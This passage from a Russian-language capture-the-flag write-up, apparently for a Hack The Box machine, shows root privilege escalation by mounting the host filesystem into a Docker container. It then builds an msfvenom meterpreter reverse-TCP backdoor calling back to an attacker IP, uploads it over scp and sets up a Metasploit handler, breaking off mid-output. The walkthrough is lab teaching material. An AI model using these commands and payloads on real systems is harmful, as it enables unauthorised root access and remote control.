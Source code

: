 Вклинимся в файловую систему скажем контейнера `olympia`, примонтировав root-директорию хоста, призовем шелл и прочитаем root-флаг:
```text
prometheus@olympus:~$ docker run --rm -i -t -v /:/hostOS olympia /bin/bash
root@89763840b853:/# whoami
root

root@89763840b853:/# id
uid=0(root) gid=0(root) groups=0(root)
```

### root.txt
```text
root@89763840b853:/# cat /hostOS/root/root.txt
aba48699????????????????????????
```

Для тех, кто не понял, что произошло, рекомендую крутую статью из 2-х частей про базовые принципы безопасности docker'а: [раз](https://blog.mi.hdm-stuttgart.de/index.php/2016/08/06/exploring-docker-security-part-1-the-whales-anatomy "Exploring Docker Security – Part 1: The whale's anatomy / Computer Science Blog"), [два](https://blog.mi.hdm-stuttgart.de/index.php/2016/08/16/exploring-docker-security-part-2-container-flaws "Exploring Docker Security – Part 2: Container flaws / Computer Science Blog").

## PrivEsc: prometheus → root. Способ 2
Но это и правда было действительно слишком просто, а значит мы неудовлетворены :unamused:

Испробуем на этой машине Metasploit-модуль для повышения привилегий в системах с доступом к docker'y. Для этого нам потребуется:
  * бэкдор;
  * msf: `exploit/multi/handler`;
  * msf: `linux/local/docker_daemon_privilege_escalation`.

Для удобства я поднял ssh-master-соединение, а всякие бэкдоры перекидывал через ssh-slave, чтобы не простукивать порты каждый раз. Как настроить такое поведение SSH'а ("SSH Multiplexing") рассказывается, например, [здесь](https://en.wikibooks.org/wiki/OpenSSH/Cookbook/Multiplexing#Setting_Up_Multiplexing "OpenSSH/Cookbook/Multiplexing - Wikibooks, open books for an open world").

Крафтим бэкдор веномом:
```text
root@kali:~# msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.14.14 LPORT=4444 -f elf --platform linux -a x86 -o .sh3ll.elf
No encoder or badchars specified, outputting raw payload
Payload size: 123 bytes
Final size of elf file: 207 bytes
Saved as: .sh3ll.elf
```

Закидываем на прометея:
```text
root@kali:~# scp .shell.elf prometheus@10.10.10.83:.tmp/.sh3ll.elf
```

Поднимаем msf-хэндлер:
```text
msf > use exploit/multi/handler
msf exploit(multi/handler) > show options 

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (linux/x86/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
```